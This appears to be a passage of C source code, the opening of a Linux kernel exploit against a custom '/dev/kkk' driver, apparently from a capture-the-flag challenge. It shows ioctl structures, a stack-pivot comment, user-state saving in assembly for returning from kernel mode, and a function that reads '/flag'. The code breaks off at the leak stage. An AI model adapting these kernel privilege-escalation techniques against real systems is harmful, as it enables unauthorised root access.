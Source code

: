 ```c
    int id;
    int enc;
    int (*handler)(struct kkk_obj *);
};

struct kkk_ioctl_add_arg
{
    enum kkk_type type;
    int enc;
    struct kkk_pack key;
    struct kkk_pack data;
};

// we are sorry to introduce this structure
// only now we can use one indirect call to pivot the stack to heap
struct kkk_ioctl_other_arg
{
    int id;
    struct kkk_pack key;
    struct kkk_pack data;
};

void privileged_function()
{
    int uid = getuid();
    printf("uid: %d\n", uid);
    int fd = open("/flag", O_RDONLY);
    char buf[128] = {0};
    read(fd, buf, 128);
    puts(buf);
}

uint64_t user_cs, user_ss, user_rflags, user_sp;
uint64_t user_rip = (uint64_t)privileged_function;

void save_state()
{
    __asm__(".intel_syntax noprefix;"
            "mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            ".att_syntax");
}

int main(int argc, char *argv[])
{
    struct kkk_ioctl_add_arg add_arg = {0};
    struct kkk_ioctl_other_arg other_arg = {0};

    // ============ LEAK ============
    // 1 - open
    int fd = open("/dev/kkk", O_RDWR);
    int i, r;
    if (fd < 0)
    {
        perror("open");
        exit(1);
    }

    // 2 - add two adjacent objects
    unsigned char key[450] = {0};
```
